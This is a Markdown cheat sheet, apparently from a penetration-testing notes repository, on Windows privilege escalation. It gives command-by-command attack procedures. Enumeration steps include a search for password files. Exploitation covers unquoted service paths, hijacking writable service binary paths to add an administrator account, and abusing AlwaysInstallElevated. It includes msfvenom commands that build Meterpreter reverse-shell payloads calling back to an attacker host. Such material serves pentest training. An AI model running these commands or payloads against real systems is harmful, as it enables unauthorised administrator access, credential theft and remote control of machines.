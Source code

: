 # Privilege escalation: Windows

If you started hacking on Linux, Windows can be frustrating and weird. But that's what most networks are running, from desktops to domain controllers. So you just have to get used to it.

## Gathering system information

These commands can be issued remotely using a cmd.exe shell.

### System information

```text
systeminfo
```

### OS version

```text
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

### Active network connections

```text
netstat -ano
```

### Firewall settings

```text
netsh firewall show state
netsh firewall show config
```

### Scheduled tasks

```text
schtasks /query /fo LIST /v
```

### Running processes

Running processes linked to services:

```text
tasklist /SVC
```

Running services:

```text
net start
```

### Installed drivers

```text
DRIVERQUERY
```

### Installed patches

```text
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

### Interesting files
Search for files that contain ‘password’ in the filename:

```text
dir /s *password*
```

Search for the keyword ‘password’ in files with the .txt extension:

```text
findstr /si password *.txt
```

## Unquoted service path

This is a common vulnerability for installed programs that don't put quotes around the file path to the executable:

```text
C:\Program Files\Some Software\Software.exe     #unquoted

"C:\Program Files\Some Software\Software.exe"
```

When Windows tries to locate the program, it guesses and tries to execute any word before a space. For example, in the unquoted service path above, Windows will try:

```text
C:\Program.exe

C:\Program Files\Some.exe

C:\Program Files\Some Software\Software.exe
```

An attacker could exploit this behaviour by putting a malicious program earlier in the file path so that Windows executes it before the legitimate one. In order for this to be successful, these conditions must be true:

1. There is a service with an unquoted binary path containing one or more spaces in the path
2. The current user has Write permissions for the folders containing spaces
3. There is a way to reboot the system or service in order to execute a payload

List all services with an unquoted service path:
```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```
If this returns a an unquoted service path, use ICACLS to check permissions on each directory in the path:
```
icacls "C:\Program Files\Some Software\"
```
If you can write to this directory, you can replace the executable with malicious one called `Some.exe`. This principle also applies to higher folders in the directory structure, if you have write permissions ('C:\' and 'C:\Program Files\'.

You can create a malicious .exe that sends a reverse shell to your machine with Metasploit (assuming there is no antivirus, haha):
```
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=[attacking host] LPORT=443 -f exe -o servicename.exe
```
Then restart the service:
```
sc stop [service name]

sc start [service name]
```
If you don't have permission to restart the service, you'll have to wait for a system reboot or a more privileged user to restart it.

If you're super lazy you can just use this Metasploit module: ```exploit/windows/local/trusted_service_path```

## Modifying binary service path
Similar to the unquoted service path vulnerability, you can attempt to modify the file path of a service and point it to a malicious executable in a writable directory. 

Windows has a tool called named accesschk.exe which checks permissions. To display services which can be modified by an authenticated user:
```
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```
A service with write permissions for an authenticated user looks like this:
```
RW [service name] SERVICE_ALL_ACCESS
```
Show the service properties:
```
sc qc [service name]
```
This is where you can find out the `BINARY_PATH_NAME` value. Change the binary path on a particular service:
```
sc config [service name] binpath= "malicious executable path"
sc stop [service name]
sc start [service name]
```
You can also add a new user and grant administrator rights using the binary path:
```
sc config [service name] binpath= "net user admin password /add"
sc stop [service name]
sc start [service name]
sc config [service name] binpath= "net localgroup Administrators admin /add"
sc stop [service name]
sc start [service name]
```
Again, if you're super lazy here's a Metasploit Module: ```exploit/windows/local/service_permissions```

## AlwaysInstallElevated setting
Windows registry has a setting that allows non-privileged users to install Microsoft Windows Installer Package Files (MSI) with elevated system permissions. There are 2 registry entries which have to be set to `1` to enable this setting.

Check the values of the registry keys:
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
If AlwaysInstallElevated is enabled in the registry entries you can create an installer payload with `msfvenom` (again assuming there is no antivirus):
```
msfvenom -p windows/adduser USER=admin PASS=password -f msi –o filename.msi
```
Generate a payload with a reverse shell:
```
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=[attacking host] LPORT=443 -f msi -o filename.msi
```
Then use the following command to execute the msi installer file:
```
msiexec /quiet /qn /i C:\Users\filename.msi
```
A summary of these flags:

* `/quiet` will bypass UAC
* `/qn` specifies not to use a GUI
* `/i` is to perform a regular installation of the package

For the lazy, here's a Metasploit module: `exploit/windows/local/always_install_elevated`
